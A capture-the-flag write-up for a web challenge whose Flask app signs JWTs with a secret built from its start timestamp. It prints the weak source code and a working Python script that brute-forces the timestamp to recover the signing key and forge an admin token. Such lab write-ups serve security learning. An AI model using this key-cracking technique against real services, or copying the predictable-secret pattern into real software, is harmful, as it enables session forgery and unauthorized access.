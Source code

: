 ## Description
This Web challenge ought to challenge your mettle. It seems like a standard web application just like any other. However, what you can uncover lies in your hands. How far will you go to become the ultimate Web Conquerer. What magical secrets are you capable of uncovering? Obtain the flag and unveil to me your true and ultimate potential!!
## Hints 
none
## Solution
Getting in the challenge, we got a login form

![image](https://github.com/user-attachments/assets/8eb94c64-99d2-4044-8589-b1d4671351c1)

And some base64 encoded content

![image](https://github.com/user-attachments/assets/c3e23678-6f23-4846-8c28-e34382c7f3e3)
Decode the string I got the source code of the website
```app = Flask(__name__)
start_time = int(time.time())

app.config['SECRET_KEY'] = f"Zi-S3CR3T-KEY-{start_time}"
app.config['SESSION_SECRET_KEY'] = app.config['SECRET_KEY']

GUEST_USERNAME = "guest"
GUEST_PASSWORD = "ezypass123"

def session_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        token = request.cookies.get('session')
        if not token:
            return redirect(url_for('login'))
        try:
            data = jwt.decode(token, app.config['SESSION_SECRET_KEY'], algorithms=["HS256"])
            username = data.get('username')
            if username not in ['guest', 'admin']:
                raise jwt.InvalidTokenError
        except jwt.ExpiredSignatureError:
            return redirect(url_for('login'))
        except jwt.InvalidTokenError:
            return redirect(url_for('login'))
        return f(*args, **kwargs)
    return decorated_function
```
It seems like the challenge got their timestamp and make it a secret key for the JWT: `Zi-S3CR3T-KEY-{start_time}`.

It also get the token as request and return the user if it not match the requirements, so we have to find the timestamp of the start time and modify the jwt to get the flag.

The website provided us `guest:ezypass123`, so let get into it.

![image](https://github.com/user-attachments/assets/a0a65126-50d5-4c95-b7c4-9b71ca3d0e70)
As expected, we got a JWT that contains data of guest.

We do know that the signature part having partern `Zi-S3CR3T-KEY-{start_time}`, so we could just brute-force it.

```
import base64
import hmac
import hashlib
import json

target_signature = "guACOMVy3HEYjuCeDMFiKx8l_y3XCtr7_obY7F4t8qs"

# Step 1: Base64URL encode the header
header = {"alg": "HS256", "typ": "JWT"}
header_json = json.dumps(header, separators=(",", ":"))
header_encoded = base64.urlsafe_b64encode(header_json.encode()).decode().rstrip("=")

# Step 2: Base64URL encode the payload for "guest"
payload = {"username": "guest"}
payload_json = json.dumps(payload, separators=(",", ":"))
payload_encoded = base64.urlsafe_b64encode(payload_json.encode()).decode().rstrip("=")

# Step 3: Brute-force the start_time over a small range
for start_time in range(1723061810, 1725261820): 
    key = f"Zi-S3CR3T-KEY-{start_time}"
    message = f"{header_encoded}.{payload_encoded}".encode()
    signature = hmac.new(key.encode(), message, hashlib.sha256).digest()
    signature_encoded = base64.urlsafe_b64encode(signature).decode().rstrip("=")

    # Check if the generated signature matches the target signature
    if signature_encoded == target_signature:
        jwt_token = f"{header_encoded}.{payload_encoded}.{signature_encoded}"
        print(f"Match found!\nStart time: {start_time}\nJWT: {jwt_token}")
        break
else:
    print("No matching JWT found in the specified range.")
```
Shout out to chatgpt, my lazy ass could never.

![image](https://github.com/user-attachments/assets/0542f94b-eb83-4e71-ab25-766578d32e1e)
Got the timestamp, now we have the right JWT and the flag.

![image](https://github.com/user-attachments/assets/01457a70-06a7-4d1e-afc1-9e9a83feb1ba)




